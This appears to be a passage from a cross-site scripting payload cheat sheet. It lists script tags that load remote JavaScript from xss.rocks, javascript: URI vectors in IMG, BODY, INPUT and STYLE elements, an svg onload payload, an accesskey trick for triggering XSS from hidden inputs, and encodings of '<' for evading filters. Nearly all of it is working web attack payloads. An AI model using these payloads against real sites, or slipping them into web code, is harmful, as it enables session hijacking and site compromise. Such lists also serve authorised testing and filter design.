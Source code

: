 ### No Closing Script Tags

```
<SCRIPT SRC=http://xss.rocks/xss.js?< B >

<SCRIPT SRC=//xss.rocks/.j>

<IMG SRC="('XSS')"
```

### Others
```
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">

<BODY BACKGROUND="javascript:alert('XSS')">

<IMG DYNSRC="javascript:alert('XSS')">

<IMG LOWSRC="javascript:alert('XSS')">

<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>

<svg/onload=alert('XSS')>
```

### XSS in Hidden Input Fields

XSS in hidden inputs is frequently very difficult to exploit because typical JavaScript events like onmouseover and onfocus can't be triggered due to the element being invisible.

It most certainly does on Firefox! This means we can execute an XSS payload inside a hidden attribute, provided you can persuade the victim into pressing the key combination. On Firefox Windows/Linux the key combination is ALT+SHIFT+X and on OS X it is CTRL+ALT+X. You can specify a different key combination using a different key in the access key attribute. Here is the vector:
```
<input type="hidden" accesskey="X" onclick="alert(1)">
```
Now works on Chrome and link/meta and any other elements
```
<link rel="canonical" accesskey="X" onclick="alert(1)" />
```

### Character < Escape

```
<
%3C
&lt
&lt;
&LT
&LT;
&#60;
&#060;
&#0060;
&#00060;
&#000060;
&#0000060;
&#60;
&#060;
&#0060;
&#00060;
&#000060;
&#0000060;
&#x3c;
&#x03c;
&#x003c;
```